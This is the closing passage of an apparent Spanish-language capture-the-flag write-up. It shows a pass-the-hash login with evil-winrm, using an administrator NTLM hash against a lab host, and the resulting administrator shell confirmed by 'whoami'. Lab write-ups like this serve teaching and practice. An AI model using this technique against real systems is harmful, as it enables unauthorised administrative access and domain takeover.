 Ya nos podemos conectar con evil-winrm haciendo un pass the hash
```bash
❯ evil-winrm -i 10.10.11.202 -u administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
Gracias Por leer